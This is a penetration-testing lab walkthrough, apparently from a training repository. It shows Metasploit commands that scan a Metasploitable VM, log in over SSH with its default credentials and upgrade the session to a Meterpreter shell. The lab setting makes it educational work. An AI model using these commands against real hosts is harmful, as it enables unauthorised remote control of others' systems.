

- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to upgrade a shell to Meterpreter using Metasploit.

**Lab Purpose:**

The Metasploit framework is a powerful tool which can be used to probe systematic vulnerabilities on networks and servers. It provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

**Lab Tool:**

Kali Linux and Metasploitable

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using Metasploit to create a stable shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

Once this is done, we can then open the tool by typing the following:

sudo msfconsole

Once the tool is open, we can then run the following to scan our target:

db_nmap -sV 192.168.56.102

192.168.56.102 is the IP address of our Metasploitable VM in this instance. You can find out the IP address of your Metasploitable VM by typing “ifconfig” in its console.

### Task 2:

Note that SSH is running on port 22. Once the scan is done, we will then login to our Metasploitable VM through Metasploit using SSH. This can be done by running the following set of commands:

use auxiliary/scanner/ssh/ssh_login  
set rhosts 192.168.56.102  
set rport 22  
set username msfadmin  
set password msfadmin

Let’s break this set of commands down:

- rhosts is the IP address of your Metasploitable VM which we will be connecting to
- rport is the port through which we will be connecting
- The username and password specified will log us into the Metasploitable VM using SSH

Once you have typed these commands, type the following to login through SSH:

run

This will log us into the Metasploitable VM through SSH and will generate a limited shell for us to interact with the machine.

### Task 3:

We now want to upgrade this shell to a meterpreter shell, which will allow us to perform a number of different actions on our target. We can do this by using the following set of commands:

use post/multi/manage/shell_to_meterpreter  
set session 1  
run

This will upgrade our limited SSH shell to an unlimited meterpreter shell. You can check the sessions which have been created by typing sessions into the terminal. You will notice that there are now 2 sessions open; one for our limited SSH shell and one for our unlimited meterpreter shell. We can switch to our meterpreter shell by typing the following:

sessions -i 2

